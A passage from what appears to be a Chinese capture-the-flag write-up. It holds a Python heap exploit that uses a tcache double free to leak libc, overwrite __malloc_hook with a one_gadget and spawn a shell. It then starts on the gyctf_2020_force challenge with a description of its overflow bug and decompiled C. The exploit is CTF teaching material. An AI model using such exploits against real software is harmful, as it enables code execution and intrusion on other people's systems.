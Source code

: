 ```
heap = add(0, 0x78, 'a')
add(1, 0x18, 'a')
add(2, 0x78, 'a')
add(3, 0x78, 'a')
add(4, 0x78, 'a')
add(5, 0x78, 'a')
add(6, 0x78, 'a')
add(7, 0x78, 'a')
add(8, 0x78, 'a')
add(9, 0x28, 'a')

delete(9)
delete(9)

add(10, 0x28, p64(heap - 0x10))
add(11, 0x28, p64(heap - 0x10))
add(12, 0x28, p64(0) + p64(0x421))

delete(0)
delete(1)

add(13, 0x78, 'a')
add(14, 0x18, 'a')
libc_base = add(15, 0x18, 'a') - 0x3ebca0
print('libc_base -&gt; ' + hex(libc_base))

one_gadget = libc_base + 0x10a38c
malloc_hook = libc_base + libc.symbols['__malloc_hook']

delete(2)
delete(2)
add(16, 0x78, p64(malloc_hook))
add(17, 0x78, p64(malloc_hook))
add(18, 0x78, p64(one_gadget))

io.sendline('1')
io.sendline('22')

io.interactive()
```



## 0x13 gyctf_2020_force

只有分配chunk的功能，可以分配最多40个chunk，而且没有限制分配的大小，在进行输入时固定输入0x50个字符，也就是说我们分配较小空间时存在溢出。

```
unsigned __int64 add()
`{`
  const void **i; // [rsp+0h] [rbp-120h]
  __int64 size; // [rsp+8h] [rbp-118h]
  char s[256]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+118h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 255, sizeof(s));
  for ( i = (const void **)&amp;unk_202080; *i; ++i )
    ;
  if ( (char *)i - (char *)&amp;unk_202080 &gt; 39 )
    exit(0);
  puts("size");
  read(0, nptr, 0xFuLL);
  size = atol(nptr);
```
